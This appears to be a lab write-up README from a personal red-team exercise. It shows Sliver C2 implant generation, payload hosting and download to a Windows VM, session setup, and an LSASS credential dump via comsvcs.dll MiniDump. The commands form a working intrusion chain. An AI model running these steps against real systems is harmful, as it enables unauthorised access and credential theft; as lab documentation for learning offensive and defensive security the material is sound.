 # 🧪 Sliver Implant & Credential Dump

This section walks through deploying a Sliver implant on a Windows VM and dumping LSASS credentials. Screenshots are provided for visual reference.

---

## 💉 Implant Generation & Delivery

- Generated an HTTP implant payload using Sliver:
  ```bash
  generate --http 192.168.x.x --save /opt/sliver
  ```


- Hosted the payload using a temporary Python HTTP server:
  ```bash
  cd /opt/sliver
  python3 -m http.server 80
  ```

- Downloaded the implant onto the Windows VM:
  ```powershell
  IWR -Uri http://192.168.x.x/NEW_SHAKEDOWN.exe -Outfile C:\Users\localadmin\Downloads\NEW_SHAKEDOWM.exe
  ```

[Implant on Windows VM](screenshots/Implant%20on%20Windows%20Vm.png)

---

## 📡 Listener Setup & Implant Execution

- Started an HTTP listener in Sliver:
  ```bash
  http
  ```

[Run Sliver](screenshots/Run%20Sliver.png)

- Executed the implant manually on the Windows VM:
  ```powershell
  .\New_SHAKEDOWN.exe
  ```

[Sliver Implant Execution](screenshots/Sliver%20implant.png)

- Verified the callback and checked active sessions:
  ```bash
  sessions
  ```

[Sliver Session](screenshots/Sliver%20Session.png)

- Interacted with the session:
  ```bash
  use <session_id>
  ```
[Get System](screenshots/Get%20System%20sliver.png)

[Verify Established Implant Connection](screenshots/Verify%20Established%20Implant%20Connection.png)

---

## 🧠 LSASS Credential Dump

- Attempted to dump LSASS memory using:
  ```bash
  execute rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump [PID] C:\\Windows\\Temp\\lsass.dmp full
  ```

